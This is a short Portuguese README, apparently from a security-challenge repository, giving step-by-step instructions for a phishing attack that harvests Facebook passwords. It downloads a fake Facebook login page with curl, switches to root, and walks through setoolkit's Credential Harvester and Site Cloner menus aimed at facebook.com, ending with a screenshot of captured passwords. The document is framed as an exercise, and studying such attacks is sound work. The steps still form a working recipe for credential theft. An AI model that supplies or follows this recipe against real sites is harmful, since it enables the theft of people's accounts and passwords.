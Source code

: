 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

  ### Inicie

Crie um diretorio de nome tool no home mkdir /home/tool/
Acesse este diretorio cd /home/tool/
Baixe o login page do facebook com wget ou curl curl https://raw.githubusercontent.com/percioandrade/cibersecurity-desafio-phishing/refs/heads/master/facebook_login_template.html > index.html
Acesse o setoolkit e siga a sequencia de imagens abaixo:

### Configurando o Phishing no Kali Linux
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")
